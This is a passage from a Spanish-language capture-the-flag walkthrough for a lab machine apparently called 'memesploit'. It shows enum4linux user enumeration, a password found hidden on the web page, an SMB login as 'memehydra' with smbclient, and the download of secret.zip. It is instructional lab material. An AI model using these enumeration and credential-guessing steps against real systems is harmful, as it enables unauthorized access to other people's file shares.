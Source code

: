 ```
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1001 Unix User\memesploit (Local User)
S-1-22-1-1002 Unix User\memehydra (Local User)

 ================================( Getting printer info for 172.18.0.2 )================================

No printers returned.


enum4linux complete on Sun Sep  1 05:31:01 2024
```

Vemos que hay un recurso compartido llamado `share_memehydra` con un nombre de usuario relacionado a el llamado `memehydra` pero si intentamos entrar nos pedira contraseña, por lo que seguiremos buscando.

## Puerto 80

Si nos vamos al puerto `80` veremos una pagina web en la que oculta 3 palabras que son las siguientes.

```
fuerzabrutasiempre
memesploit_ctf
memehydra
```

Por lo que probaremos con esas 3 palabras la contraseña del usuario `memehydra` en el `smb`, nos podremos crear un diccionario si queremos.

## Intrusion SMB

Si probamos con la palabra `fuerzabrutasiempre` como contraseña del usuario `memehydra` veremos que es la correcta, por lo que...

```shell
smbclient //<IP>/share_memehydra -U memehydra
```

Y con esto ya estariamos dentro, si listamos veremos un archivo `.zip`.

```
 .                                   D        0  Sat Aug 31 11:15:13 2024
  ..                                  D        0  Sat Aug 31 11:15:13 2024
  secret.zip                          N      224  Sat Aug 31 11:15:06 2024
```

Nos lo descargaremos a nuestro host.

```shell
get secret.zip
```
